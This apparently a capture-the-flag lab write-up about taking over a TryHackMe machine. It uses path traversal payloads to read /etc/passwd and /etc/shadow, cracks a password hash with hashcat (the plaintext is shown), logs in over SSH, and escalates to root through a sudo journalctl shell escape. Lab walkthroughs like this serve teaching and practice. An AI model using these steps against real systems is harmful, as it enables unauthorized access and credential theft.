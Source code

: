 ```yaml
---
title: Local File Inclusion - LFI
author: Dimitrios Tsarouchas
date: 2021-02-01 20:55:00 +0800
categories: [CTFs, TryHackMe]
tags: [ctf, tryhackme, linux]
pin: true
featured-image: /assets/img/local-file-inclusion-vulnerability.jpg
featured-image-alt: LFI
---
```


![Local File Inclusion](/assets/img/local-file-inclusion-vulnerability.jpg)*Image from netsparker.com*

## Introduction
We are going to exploit a Linux machine that is vulnerable to Local File Inclusion attack. This will be done by using the [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal){:target="_blank"} technique. We will get access to a local user account by cracking its password hash and then elevate our privileges, get access as superuser and find the flag.

## What is Local File Inclusion?

LFI or Local File Inclusion is a vulnerability that exploits improper input sanitisation in web applications and can lead to information disclosure, Cross-site Scripting (XSS), and remote code execution.

## Getting user access via LFI

To test a web application for LFI vulnerability we need any input field or a parameter and value combination in the URL for example `example.com/file=robots.txt`. 

With that in mind, an intruder could use LFI to access the target system and read files that which may contain sensitive information like SSH keys or passwords. Having this information in their hands intruders can then use this data to further compromise the system.

### Using the parameter found in the URL

Looking around the website and focusing on the URL bar we can see the parameter **page** with its value set to **contact.html** page. Let's check if the website is vulnerable to LFI by exploiting the `page` parameter we just found. 

First thing we can try is to get access to the `/etc/passwds` to check what users lives in that system. We will use the Path Traversal method which will give us access to files and directories that are stored in the system. 

We can include files like `../../etc/passwd` to go out twice from the current working directory and go read the `passwd` file that is inside the `/etc` directory. 

We will use from [PayloadsAllTheThings](https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#basic-lfi-null-byte-double-encoding-and-other-tricks){:target="_blank"} the basic LFI `http://example.com/index.php?page=../../etc/passwd` and our URL should look like this `/home?page=../../etc/passwd`.

If we pay close attention at the very bottom of the web page, under the footer section, we managed to print all the users that exist in the system as well as proving that the system is vulnerable to Local File Inclusion. 

We can find valuable information about `/etc/passwd` at [nixCraft](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/){:target="_blank"} website. 

### Find a user in /etc/passwd

Looking better at `/etc/passwd` at the very bottom we can see that the user **Falcon** exists on the system.  

![Falcon user](/assets/img/LFI/etcpasswdFalcon.png) *Falcon user found in /etc/passwd file*

### Find Flacon's password hash

 Now that we have the user the only thing left is to find his password and get access to the system. In order to obtain Falcon's password we need to print the shadow file which contains the users hashes. From there we can grab Falcon's password hash and try crack it using Hashcat. 
 
 The only thing we have to do is to modify our value in the page parameter to look for the shadow file like  `/home?page=../../etc/shadow`. 

 ![Falcon's password hash](/assets/img/LFI/etcshadowFalcon.png) *Falcon's password hash found in /etc/shadow file*

We successfully found Falcon's hash starting with `$6$` indicating that uses **SHA512** algorithm. We will use Hashcat with hash mode of 1800 (sha512crypt $6$, SHA512) providing the FalconHash.txt text file which contains Falcon's hash against the rockyou.txt wordlist. 

### Cracking Falcon's password hash

``` terminal 
# hashcat -a 0 -m 1800 FalconHash.txt /usr/share/wordlists/rockyou.txt                                                                               
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$6$xQmTDVmT$hgSLG3ebs.8Tc/F4qqXNnvBBnG736EWpWKaprFVARjAsZ6JyoL4WaJdGv5.qddMWF4/MoJgN6Hekri8wyJ97k/:password09
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
``` 

Hashcat carcked successfully Falcon's password hash and revealed that Falcon uses the password: **password09**

The only thing that is left is to SSH into the target machine providing Falcon's credentials and find the user flag.

```terminal
# ssh falcon@10.10.215.76                                                  
falcon@walk:~$ ls -l
total 4
-rw-r--r-- 1 falcon falcon 21 Jan 29  2020 user.txt
falcon@walk:~$ cat user.txt
```

## Escalating our privileges to gain root access

Now that we have access to Falcon's account we will try to escalate our privileges to gain root access on the machine. In order to gain root access we need to find a vector such as a binary that could be exploited. 

You can find more information about Linux Privilege Escalation on [mzrf's blog](https://blog.mzfr.me/posts/2020-02-1-linux-priv-esc/){:target="_blank"}. 

Using the `sudo -l` command we can see what commands can Falcon run on the system as root user.
 

```terminal
falcon@walk:~$ sudo -l
Matching Defaults entries for falcon on walk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falcon may run the following commands on walk:
    (root) NOPASSWD: /bin/journalctl

```

Falcon is able to run the `/bin/journalctl` command as superuser and now we need to find a way to use that binary for elevating our privileges. 

Searching in [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/){:target="_blank"} website we found that privilege escalation can be achieved by using the sudo program. 

![Journalctl](/assets/img/LFI/journalctl.png) *GTFObins - journalctl*

After executing `sudo journalctl` we want to gain shell access as root user and we do that by using  the `!/bin/bash`.  

```terminal
falcon@walk:~$ sudo journalctl 
Jan 28 19:00:21 walk kernel: Linux version 4.15.0-20-generic (buildd@lgw01-amd64-039) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 (Ubuntu 4.15.
Jan 28 19:00:21 walk kernel: Command line: BOOT_IMAGE=/boot/vmlinuz-4.15.0-20-generic root=UUID=979754d8-4db7-4b66-a804-28a498c1cc0f ro
!/bin/bash

root@walk:~# id
uid=0(root) gid=0(root) groups=0(root)
root@walk:~# pwd
/home/falcon
```

Now we need to move to the /root directory and print the root's flag.

```terminal
root@walk:/# cd root
root@walk:/root# ls
root.txt
root@walk:/root# cat root.txt 
```